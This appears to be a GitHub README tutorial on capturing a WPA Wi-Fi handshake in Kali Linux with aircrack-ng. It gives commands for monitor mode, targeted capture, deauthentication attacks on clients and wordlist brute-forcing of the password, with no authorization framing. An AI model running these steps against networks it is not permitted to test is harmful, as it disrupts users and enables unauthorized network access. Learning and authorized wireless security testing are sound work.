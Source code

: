 
# Capturing a Wi-Fi Handshake in Kali Linux

## Prerequisites
- A [wireless adapter](https://www.kali.org/docs/nethunter/wireless-cards/) that supports **monitor mode** and **packet injection**.
- The `aircrack-ng` suite (pre-installed in Kali Linux).
- else  install by run below command
```
 sudo apt install aircrack-ng 
 ```
---

## Steps to Capture the Handshake

### 1. Enable Monitor Mode
Run the following commands to start monitor mode:

```bash
sudo airmon-ng check kill  # Kill interfering processes
sudo airmon-ng start wlan0  # Enable monitor mode
```

Replace `wlan0` with your interface name (you can check using `ifconfig` or `iwconfig`).

Your interface will usually be renamed to `wlan0mon`.

---

### 2. Scan for Wi-Fi Networks
To scan for nearby networks, use `airodump-ng`:

```bash
sudo airodump-ng wlan0mon
```

Look for the **BSSID** (MAC address) and **channel (CH)** of the target network.

---

### 3. Capture the Handshake
Once you have identified the target network, run the following command to capture packets and the handshake:

```bash
sudo airodump-ng -c <channel> --bssid <BSSID> -w handshake wlan0mon
```

- Replace `<channel>` with the Wi-Fi channel number.
- Replace `<BSSID>` with the network’s MAC address.
- `-w handshake`: Saves the captured packets in a file named `handshake-01.cap`.

Wait for a **handshake to appear** (this happens when a device connects or reconnects).

---

### 4. Deauthenticate a Client (Optional)
To force a device to reconnect and capture the handshake, run:

```bash
sudo aireplay-ng -0 5 -a <BSSID> -c <Client MAC> wlan0mon
```

- `-0 5`: Sends 5 deauthentication packets.
- `-a <BSSID>`: Target AP MAC address.
- `-c <Client MAC>`: Target client device MAC (use `airodump-ng` to find it).

---

### 5. Verify Handshake Capture
Check if the handshake was captured:

```bash
aircrack-ng handshake.cap -w /path/to/wordlist.txt
```

Look for `[ WPA handshake: <BSSID> ]` at the top of the output.

---

## 6.Bruteforce using aircrack-ng
```bash
sudo aircrack-ng <your_capture_file.cap> -w <possible_passwordlist.txt>
```
